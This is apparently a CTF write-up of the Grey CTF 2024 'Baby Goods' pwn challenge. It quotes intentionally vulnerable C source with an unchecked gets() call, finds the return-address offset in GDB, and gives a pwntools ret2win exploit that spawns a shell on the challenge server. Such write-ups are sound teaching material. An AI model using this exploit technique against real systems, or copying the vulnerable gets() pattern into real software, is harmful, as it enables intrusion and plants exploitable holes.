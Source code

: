 ```yaml
---
title: Grey CTF Quals 24 "Baby Goods"
date: 2024-04-24
description: Writeup for pwn/baby-goods from Grey CTF Quals 2024.
categories:
  - pwn
  - x86-64
---
```


> I have opened a new shop for baby goods! Feel free to explore around :)
> 
> Author: uhg

TL;DR - Buffer overflow allowing an overwrite of the return address to a vulnerable function. Simple ret2win challenge.

<!-- more -->

## Investigating

We're given two different files, a binary to test locally on and a source. In the C source code we can see the following areas of interest:

```c title="babygoods.c" hl_lines="20-23"
...
int sub_15210123() {
	execve("/bin/sh", 0, 0);
}

int buildpram() {
	char buf[0x10];
	char size[4];
	int num;

	printf("\nChoose the size of the pram (1-5): ");
	fgets(size,4,stdin);
	size[strcspn(size, "\r\n")] = '\0';
	num = atoi(size);
	if (1 > num || 5 < num) {
		printf("\nInvalid size!\n");
		return 0;
	}

	printf("\nYour pram has been created! Give it a name: ");
	//buffer overflow! user can pop shell directly from here
	gets(buf);
	printf("\nNew pram %s of size %s has been created!\n", buf, size);
	return 0;
}
...
```

So obviously, as hinted by the comment, we need to do an overflow on the `#!c gets(buf)`.

???+ bug "`#!c gets()` Overflows"
	In C the `#!c gets()` function is a dangerous function that can lead to buffer overflows. It reads a line from `#!c stdin` and stores it in the buffer `#!c buf` until a newline character is found. The vulnerability is that it doesn't check the size of the buffer, so if the input is larger than the buffer, it will overflow into the stack.

However, even with this static code analysis, there are a few optimizations done during the compile process (such as padding and stack alignment) that can make it difficult to determine the exact size of the buffer. We don't need to go heavy with the analysis so we won't use Ghidra or IDA, but we can use a cyclic pattern to determine the exact size of the buffer. We need to find the offset to the return address to be able to overwrite it. We'll use GDB to do this:

```hl_lines="4-6"
$ gdb -q babygoods
Reading symbols from babygoods...
(No debugging symbols found in babygoods)
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  run
...
Your pram has been created! Give it a name: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
...

[#0] Id 1, Name: "babygoods", stopped 0x401328 in buildpram (), reason: SIGSEGV
```

Here, the program experiences a segmentation fault because it tries to access an unreachable address after the return address on the stack is overwritten. To determine the necessary offset to control the return address, which follows the stack pointer in the frame layout, we can use a GEF command to search for our input in RSP:

```
gef➤  pattern search $rsp
[+] Searching for '6661616161616161'/'6161616161616166' with period=8
[+] Found at offset 40 (little-endian search) likely
```

This shows that an offset of 40 bytes is required to reach the return address. Next, we need to find the address of the function we want to return to, in our case `#!c sub_15210123()`, we can do that in GDB as well:

```
gef➤  info fun sub_15210123
All functions matching regular expression "sub_15210123":

Non-debugging symbols:
0x0000000000401236  sub_15210123
```

## Exploiting

So we now know the address of `#!c sub_15210123()` is `#!c 0x401236`. Because of the architecture, we'll need to write it in little-endian format, but we can simply use the pwnlib library to do this for us, as shown below:

```python title="exploit.py"
from pwn import *

p = process('./babygoods')

p.sendlineafter('name: ', 'fbad') # First prompt (input doesn't matter)
p.sendlineafter('today?\n', '1')  # Menu prompt (input doesn't matter)
p.sendlineafter('(1-5): ', '1')   # Pram size prompt (input doesn't matter)

payload  = b'A' * 40     # fill stack until return address
payload += p64(0x401236) # address of sub_15210123()

p.sendlineafter('name: ', payload) # Send payload (1)
p.interactive() # Allows us to interact with the program
```

1. Payload sent will be `#!py b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00'`.

Testing it locally it works as expected, and we get a shell. We can replace `#!py p = process('./babygoods')` with `#!py p = remote('challs.nusgreyhats.org', 32345)` to connect to the remote server and get the flag.

```shell hl_lines="10"
$ python exploit.py
[+] Opening connection to challs.nusgreyhats.org on port 32345: Done
[*] Switching to interactive mode

New pram AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12 of size 1 has been created!
$ ls
flag.txt
run
$ cat flag.txt
grey{4s_34sy_4s_t4k1ng_c4ndy_fr4m_4_b4by}
```

Just like that, we get the flag.